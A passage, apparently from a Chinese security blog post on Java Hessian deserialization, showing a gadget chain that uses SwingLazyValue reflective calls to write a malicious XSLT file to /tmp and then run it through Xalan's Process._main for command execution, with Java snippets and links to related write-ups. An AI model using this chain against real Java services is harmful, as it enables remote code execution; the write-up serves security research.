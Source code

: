     结合 [`SwingLazyValue#createValue`](#code-snippet--SwingLazyValue) 的反射调用利用点，可以使用 `com.sun.org.apache.xalan.internal.xslt.Process#_main` 加载执行恶意 XSLT 代码，但是需要通过文件路径来加载，所以需要先写到文件中

    {{< figure src="/ox-hugo/_20241217_162115screenshot.png" >}}

    1.  将恶意 XSLT 代码写入文件

    <!--listend-->

    ```java
    String evilXslt = "<恶意XSLT代码，比如上文的命令执行>";
    SwingLazyValue value1 = new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"/tmp/xslt_data", evilXslt.getBytes()});
    ```

    1.  加载解析 XSLT，触发命令执行

    <!--listend-->

    ```java
    SwingLazyValue value2 = new SwingLazyValue("com.sun.org.apache.xalan.internal.xslt.Process", "_main", new Object[]{new String[]{"-XT", "-XSL", "file:///tmp/xslt_data"}});
    ```


## References {#references}

-   <https://su18.org/post/hessian/>
-   <https://yzddmr6.com/posts/swinglazyvalue-in-webshell/>
